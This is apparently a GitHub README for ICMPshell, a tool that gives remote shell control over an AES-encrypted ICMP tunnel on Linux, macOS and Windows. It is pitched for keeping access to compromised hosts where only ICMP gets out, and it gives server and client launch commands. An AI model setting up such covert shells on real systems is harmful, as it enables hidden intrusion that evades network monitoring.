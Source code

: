 # ICMPshell
A remote control based on ICMP tunnel. Ability to support Linux, Darwin, Windows. The communication flow is encrypted with AES encryption of CBC mode. But the server and the client need Root / Administrator permissions, which is suitable for getting target high rights and only ICMP can be connected.



## Requirements

```
pycryptodome==3.11.0
# I use Python 3.6 to develop this project
```



## QUICK START

````python
# server
python3 server.py -r {rhost} -b {bind_ip}

# cilent
python3 cilent.py -l {lhost} -b {bind_ip}

# In Linux and Darwin operating systems, -b parameters (bind_ip) can be specified as 0.0.0.0, Windows needs to judge which network interface card
````



## Darwin

![image](https://raw.githubusercontent.com/seventeenman/ICMPshell/main/img/darwin.jpg)



## Linux

![image](https://raw.githubusercontent.com/seventeenman/ICMPshell/main/img/linux_server.jpg)



![image](https://raw.githubusercontent.com/seventeenman/ICMPshell/main/img/linux_cilent.jpg)



## Windows

![image](https://raw.githubusercontent.com/seventeenman/ICMPshell/main/img/win.jpg)



## Known issues

By default, OSX has a limited maximum UDP package for 9216 bytes. So you can't read the content exceeding this byte. In the later stage, I will consider adding a flag to a single transmission in the UDP traffic.

This project only has a simple test, if there is an error, Issue can be turned on.
